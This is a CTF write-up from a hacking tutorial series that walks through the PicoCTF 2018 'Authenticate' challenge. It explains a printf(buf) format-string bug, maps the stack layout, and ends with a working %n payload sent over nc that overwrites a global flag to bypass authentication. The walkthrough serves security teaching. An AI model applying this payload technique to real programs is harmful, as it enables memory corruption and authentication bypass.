 ```yaml
---
title:  PicoCTF 2018 - Authenticate
description: Did you think printf was just for printing values? Naw, it can do more than that.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Authenticate

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

I'll give you a hint, you *should* be able to spot the bug based on the [last challenge]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/echooo.md %}).

```c
int authenticated = 0;

void read_flag()
{
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  } else {
    printf("Access Granted.\n");
    flag();
  }
}

int main(int argc, char **argv)
{
  // ...
  char buf[64];
  // ...
  fgets(buf, sizeof(buf), stdin);
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  read_flag();
```

Let's break it down:

1. There is a global variable `authenticated`, initialized to false, but must be set to true in order to get the flag
2. `buf` is allocated on the stack (but is used safely buy the function `fgets`)
3. If the response contains "no", the program immediately exits
4. If the response contains "yes", the program calls `read_flag()` (which validates the `authenticated` variable)
5. If the response contains neither "no" or "yes", the program calls `printf(buf)` to echo the response back to the user. For some reason, it still calls `read_flag()`.

Soo... Where's the bug?

If you said `printf(buf)`, then you're exactly right! Good job.

## Strategy

Our strategy has to be a little different this time around. When `printf` is called, the flag isn't even loaded into memory yet!

But, we do know that `buf` is on the stack, so we can probably reference stuff in that.

And we also know that `read_flag()` will still get called, so we just need some way to change the value of `authenticated`.

We even know exactly where `authenticated` is in memory because we can verify that **PIE is not enabled** for this binary. (*Do you remember how to check*?)

**The strategy is to find some way for a format string vulnerability to write to known location in memory**.

## Background Info

It's silly really. How could a function designed for *printing stuff to the screen* allow you to write to memory?

Maybe you're a c programming language veteran and have an idea... If so, connect to the challenge uisng `nc 2018shell.picoctf.com 52398` and give it a go, otherwise, listen up.

If you browse the documentation for format strings, you come across this curious type field for "`%n`":

| Character | Description |
| --- | --- |
| n | Print nothing, but write the number of characters successfully written so far into an integer pointer parameter. |

Which is very interesting. It says that instead of printing something to the screen when it sees a "`%n`" token, it'll actually treat the corresponding argument as an `int*` and **WRITE A NUMBER THERE**. Essentially, if you make your output long enough, you can write any `int` value to any location in memory (assuming you can control the `int*` argument).

Ok, first things first, where is `authenticated` in memory?

```
$ objdump -t ./auth | grep authenticated
0804a04c g     O .bss   00000004              authenticated
```
{:.contains-term}

What about the content of `buf`? It's on the stack, but where is it relative to the pointer to the format string passed as an argument to `printf`?

```nasm
mov    ebp,esp
push   ecx ; esp -= 4
sub    esp,0x64 ; esp -= 0x64
; ...
; printf(buf)
sub    esp,0xc
lea    eax,[ebp-0x4c] ; &buf
push   eax
call   80484b0 <printf@plt>
```

So, we know there are `0x68` bytes reserved on the stack. We know that `buf[64]` starts at `ebp-0x4c`. We know that we push the format string argument (a `4` byte ptr) followed by `12` bytes of padding, followed by rest of the baseline stack reserved by the function.

| Start | End | Content |
| --- | --- | --- |
| `esp` | `esp+3` | `&buf` [4 bytes] (*format string*) |
| `esp+4` | `esp+15`| alignment padding [12 bytes]
| `esp+16` = baseline = `ebp-0x68`| `esp+31` = `ebp-0x4d` | other [28 bytes]|
| `ebp-0x4c` | `ebp-0x0d`| `buf[64]` |

Therefore, there are `12+28 = 40` bytes of stuff between the format-string argument and the start of `buf[]`.

First, let's check our math, what should happen if we enter a format string of "`ABCD %11$#lX`"?

If you recall from [echooo]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/echooo.md %}), this format string is a POSIX extension that says treat all of the arguments as if they were "`%#lX`" ie, a long sized integer, and then print *ONLY* the 11th one as a hexadecimal value (prepended with "0x"). The gcc compiler on x86 linux platforms treats `long` integers as 32 bit. The ascii values for `A`,`B`,`C`, and `D` are `0x41`, `0x42`, `0x43` and `0x44` respectively. A 32-bit little-endian integer would store its value with the least significant byte first, and its most significant byte last. The string "ABCD" would therefore be equivalent to the in-memory representation of the 32-bit integer `0x44434241`, which is what we expect that format-string to print out. **Let's verify!**

```
$ ./auth
Would you like to read the flag? (yes/no)
ABCD %11$#lX
Received Unknown Input:

ABCD 0x44434241
Sorry, you are not *authenticated*!
```
{:.contains-term}

Excellent, memory is layed out *exactly* as we expect it to be!

You should now have all the pieces you need to craft your exploit. Try it now by connecting with  `nc 2018shell.picoctf.com 52398`.

## Exploitation

We know `authenticated` is at the address `0x0804a04c`, we know we can use "`%n`" to write to an address, and we know that the first byte of `buf[]` starts `40` bytes after the format-string argument (where `40` bytes is equivalent to `10` pointers).

Let's write a non-zero value into `authenticated` by putting the address `0x0804a04c` (written in little-endian form) into the first 4 bytes of `buf`, and then use the format string "`%11$n`" which will index into the stack the equivalent of 10 `int*` pointers (`40` bytes), grab the 11th one, and then set the value of memory pointed to by that pointer to be equal to the number of bytes printed so far (in this case 4). Since `authenticated=4` is "truthy", `read_flag()` will call `flag()`, which will then open the flag file and print its contents.

```
$ python -c 'print("\x4c\xa0\x04\x08%11$n")' | nc 2018shell.picoctf.com 52398
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�
Access Granted.
picoCTF{===REDACTED===}
```
{:.contains-term}

Good job! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.